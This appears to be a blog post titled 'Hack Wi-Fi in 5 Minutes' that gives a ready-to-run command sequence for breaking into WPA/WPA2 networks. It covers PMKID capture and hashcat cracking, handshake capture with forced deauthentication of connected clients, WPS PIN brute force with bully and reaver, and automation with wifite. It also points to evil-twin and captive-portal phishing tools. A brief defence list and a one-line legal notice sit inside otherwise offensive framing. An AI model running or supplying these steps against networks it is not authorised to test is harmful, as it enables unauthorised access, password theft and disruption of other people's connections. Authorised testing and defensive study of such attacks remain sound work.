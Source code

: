 ```yaml
---
title: "Hack Wi-Fi in 5 Minutes: WPA/WPA2/WPS Hacks"
description: >-
  No fluff. This is how real hackers break into most Wi-Fi networks in under 5 minutes. PMKID snatching, handshake cracking, WPS brute force, and real-world field tricks.
author:
name:
date: 2025-03-9 14:00:00 +0000
categories: [Pentesting]
tags: [wifi, aircrack, wpa, wps, pmkid, hacking, network]
---
```


> “Weak passwords + WPS or PMKID = Wi-Fi owned in 5 minutes.”
{: .prompt-info }

---

## Requirements

- Kali Linux / Parrot OS / BlackArch
- Wireless adapter that supports monitor mode and packet injection
- Tools: `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`, `bully`, `reaver`, `hcxdumptool`, `hcxpcapngtool`, `hashcat`

---

## Option 1: PMKID Attack (No Clients Required)

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo hcxdumptool -i wlan0mon -o dump.pcapng --enable_status=1
```

Wait ~30 seconds to capture PMKID (no need to deauth anyone).

Convert the capture:
```bash
hcxpcapngtool -o hash.hc22000 dump.pcapng
```

Crack it:
```bash
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
```

---

## Option 2: WPA2 Handshake Capture + Crack

### 1. Enable monitor mode
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### 2. Scan for targets
```bash
airodump-ng wlan0mon
```

### 3. Capture handshake
```bash
airodump-ng -c <CH> --bssid <BSSID> -w handshake wlan0mon
```

### 4. Force deauthentication
```bash
aireplay-ng -0 5 -a <BSSID> -c <ClientMAC> wlan0mon
```

> *"Wait for "WPA Handshake" message to confirm capture."*


### 5. Crack the handshake
```bash
aircrack-ng handshake.cap -w /usr/share/wordlists/rockyou.txt
```

> Use smarter wordlists from `cupp`, `pyrrate`, or custom `crunch`.
{: .prompt-tip }

---

## Option 3: WPS PIN Bruteforce

Try this if WPS is enabled. It's usually faster than handshake cracking.

### Bully (faster):
```bash
bully wlan0mon -b <BSSID> -c <CH>
```

### Reaver (slower fallback):
```bash
reaver -i wlan0mon -b <BSSID> -vv
```

Successful output gives:
```
[+] WPS PIN: 12345670
[+] WPA PSK: supersecretwifi123
```

---

## Bonus: Wi-Fi Password Spraying with Wifite

```bash
wifite
```

- Automates WPS/PMKID/Handshake attacks
- Use with custom rules and timeouts:
```bash
wifite --dict /path/to/wordlist.txt
```

---

## Defend Against These Attacks

- Disable WPS permanently
- Use WPA3 or WPA2 with 802.11w (PMF enabled)
- Use a secure password (16+ characters, symbols, random)
- Monitor wireless traffic with IDS/IPS tools like `Kismet`

---

## Legal Notice

> This guide is for educational and authorized penetration testing only. Unauthorized Wi-Fi hacking is illegal and unethical.
{: .prompt-warning }

---

## Speedrun Summary

| Attack Type         | Time     | Success Rate |
|---------------------|----------|---------------|
| PMKID Attack        | 1–2 min  | High          |
| WPA2 Handshake      | 3–4 min  | Medium–High   |
| WPS Bruteforce      | 1–5 min  | Very High     |
| Wordlist Cracking   | Varies   | Depends on pass strength |

---

## Next-Level Wireless Hacking (Advanced Ops)

- Rogue APs with `airgeddon` or `eaphammer`
- Evil twin + captive portal phishing with `wifiphisher`
- Use `hostapd` to clone SSIDs and trap clients
- Fake enterprise Wi-Fi with `hostapd-wpe`
- Crack EAP/MSCHAPv2 creds with `asleap`

---

## Lab Ideas

- Set up Wi-Fi attack VMs
- Use Raspberry Pi as a covert hacking station
- Practice using `WiFi Pumpkin 3` or `Fluxion`
- Capture real traffic from multiple clients using `hcxdumptool`

---

> “You don’t need to be the fastest. You just need to be near the signal.”
{: .prompt-tip }
